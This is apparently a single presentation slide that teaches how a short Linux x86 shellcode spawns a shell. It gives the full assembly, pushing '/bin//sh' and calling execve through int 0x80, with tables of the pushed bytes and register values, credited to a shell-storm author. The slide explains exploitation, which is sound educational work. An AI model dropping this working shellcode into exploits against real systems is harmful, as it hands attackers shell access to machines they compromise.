

# Execution
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 0xb
int 0x80

| 0x0 |
| --- |
| 0x68 |
| 0x73 |
| 0x2f |
| 0x2f |
| 0x6e |
| 0x69 |
| 0x62 |
| 0x2f |
| 0x0 |
| --- |
| h |
| s |
| / |
| / |
| n |
| i |
| b |
| / |
| ebx | esp |
| --- | --- |
| ecx | 0 |
| eax | 0x0b |
Registers
esp
Shellcode
Author: kernel_panik, http://www.shell-storm.org/shellcode/files/shellcode-752.php
27